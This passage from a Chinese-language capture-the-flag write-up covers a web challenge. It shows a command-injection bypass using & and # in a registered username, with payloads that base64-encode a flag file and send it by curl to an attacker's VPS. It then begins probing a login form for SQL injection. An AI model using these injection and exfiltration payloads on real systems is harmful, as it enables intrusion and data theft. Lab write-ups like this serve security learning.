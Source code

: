 只是过滤了|和;，但是&和#都没有过滤掉，所以可以构造任意命令执行

可控的两个参数中，filename因为是文件名，不能带有/，所以不好注入

于是就把注入点放在session[‘username’]

注册用户名：& curl vps:8888 #，得到session后，同样按上面的方法一样修改id:1然后访问/upload

由于我在BUU上没成功，看了别人的writeup，大致说一下步骤

*   1、& base64 ./flag/flag.jpg > /tmp/1.txt #
*   2、& curl vps:8888 -d “@/tmp/1.txt” #
*   3、$ cat 1.txt | base64 -d > flag.jpg

```
我们先将图片转换为base64写入文本中，否则直接打到vps上我们也看不了
然后将文本带出保存在本地，在直接base64 -d转换为图片 
```

# 0x03 web4 demo_mvc

打开靶机，有个登陆界面，提交和返回的都是json格式数据
![在这里插入图片描述](img/7875afb85442c668917c9bddd4fd141b.png)
我们随便测试了一下，在username中加’ 直接报错
![在这里插入图片描述](img/2f28d9ea55ae13c1f490c5824144bee7.png)
但是我们在测试时发现，select’不会报错
